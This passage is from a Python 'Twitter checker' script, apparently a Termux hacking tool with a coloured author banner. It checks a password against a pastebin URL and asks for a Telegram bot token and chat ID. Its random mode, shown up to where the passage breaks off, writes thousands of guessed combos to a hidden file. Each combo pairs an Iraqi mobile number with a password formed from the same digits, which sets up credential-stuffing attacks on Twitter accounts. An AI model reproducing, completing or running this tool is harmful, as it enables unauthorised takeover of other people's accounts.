 \033[1;93m < \033[1;92mTHE TOOL IS FREE\033[1;93m >  \033[1;91m 
 ---------------------------
 \033[1;91m(\033[1;92m⌯\033[1;91m) \033[1;97mAUTHOR     : SIDRA ELEZZ
 \033[1;91m(\033[1;92m⌯\033[1;91m) \033[1;97mTelegram   : SIDRATOOLS
 \033[1;91m(\033[1;92m⌯\033[1;91m) \033[1;97mYOUTUBE    : TERMUX TOOLS
 \033[1;91m(\033[1;92m⌯\033[1;91m) \033[1;97mGITHUB     : GITHUB.COM/SIDRAELEZZ
""" 
os.system('clear')

def Top(s):
	for ASU in s + '\n':
		sys.stdout.write(ASU)
		sys.stdout.flush()
		sleep(50. / 700)
		
re = requests.get("https://pastebin.com/raw/ckKjG8Q6")
print (Sidra)
print ("\033[1;92mFIRST STEP OF LOGIN")
print ("\033[1;97m--------------------")
print ("\033[1;97m ") 
password = input('          \033[1;93mTOOL PASSWORD: '+C)
print (E)
if password == "" :
  sys.exit()
if password in str(re.text):
  print(H+" FIRST STEP Is Done. Logged in Successfully as ")
  print ("\033[1;93m ")
  print("\033[1;93mPlease Wait 5 Minutes, All Packages Are Checking.....")
else:
  print (" Wrong Password ⌯")
  os.system('xdg-open https://t.me/TT_RQ/1')
  sys.exit()
#----------------------------------------------------[Sidra_Cod_Checker]----------------------------------------------------#  
os.system('clear')
os.system('rm -rf .txt')
print(Sidra)
token = input(A+"("+E+"⌯"+A+")"+H+ " Enter Token :\n"+C)
ID = input(A+"("+E+"⌯"+A+")"+H+ " Enter ID Tele :\n"+C)
def Cod_SidraELEzz():
	os.system('clear')
	global ID, token 
	ok = 0
	cp = 0
	sk = 0
	print(Tk)
	print("\n"+A+"("+E+"1"+A+")"+C+ " Random Checker Twitter \n"+A+"("+E+"2"+A+")"+C+ " Combo Checker Twitter")
	SidraELEzz=input("\n"+A+"("+E+"⌯"+A+")"+B+ " Choose Checker :"+C)
	if SidraELEzz=="1":
		os.system('clear')
		import time
		def Combo():
			for lik in range(2500):
				kk=random.randint(1000000, 9999999)
				ss=("+964770"+str(kk)+":0770"+str(kk))
				with open(".txt", "a") as Sidr:
					Sidr.write(str(ss)+"\n")
				x2=random.randint(1000000, 9999999)
				sos=("+964771"+str(x2)+":0771"+str(x2))
				with open(".txt", "a") as Sidr:
					Sidr.write(str(sos)+"\n")
				sk=random.randint(1000000, 9999999)
				ko=("+964750"+str(sk)+":0750"+str(sk))